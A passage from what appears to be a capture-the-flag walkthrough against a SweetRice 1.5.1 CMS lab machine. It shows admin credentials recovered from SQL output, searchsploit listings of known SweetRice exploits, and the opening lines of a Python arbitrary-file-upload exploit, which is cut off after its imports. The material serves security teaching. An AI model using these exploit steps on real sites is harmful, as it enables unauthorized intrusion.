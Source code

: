 Upon review of the sql output, there's a manager username.

Using manager:Password123 worked!


# Initial Foothold

Now that we have access to the administration page.
#### SearchSploit
```
searchsploit sweetrice 1.5.1
--------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                             |  Path
--------------------------------------------------------------------------------------------------------------------------- ---------------------------------
SweetRice 1.5.1 - Arbitrary File Download                                                                                  | php/webapps/40698.py
SweetRice 1.5.1 - Arbitrary File Upload                                                                                    | php/webapps/40716.py
SweetRice 1.5.1 - Backup Disclosure                                                                                        | php/webapps/40718.txt
SweetRice 1.5.1 - Cross-Site Request Forgery                                                                               | php/webapps/40692.html
SweetRice 1.5.1 - Cross-Site Request Forgery / PHP Code Execution                                                          | php/webapps/40700.html
--------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

Let's take a look at the file upload.
#### Getting the exploit file path
```
searchsploit -p php/webapps/40716.py
  Exploit: SweetRice 1.5.1 - Arbitrary File Upload
      URL: https://www.exploit-db.com/exploits/40716
     Path: /usr/share/exploitdb/exploits/php/webapps/40716.py
    Codes: N/A
 Verified: True
File Type: Python script, ASCII text executable
```

#### Reading the exploit
```
cat /usr/share/exploitdb/exploits/php/webapps/40716.py
#/usr/bin/python
#-*- Coding: utf-8 -*-
# Exploit Title: SweetRice 1.5.1 - Unrestricted File Upload
# Exploit Author: Ashiyane Digital Security Team
# Date: 03-11-2016
# Vendor: http://www.basic-cms.org/
# Software Link: http://www.basic-cms.org/attachment/sweetrice-1.5.1.zip
# Version: 1.5.1
# Platform: WebApp - PHP - Mysql

import requests
import os
from requests import session

if os.name == 'nt':
    os.system('cls')
else:
```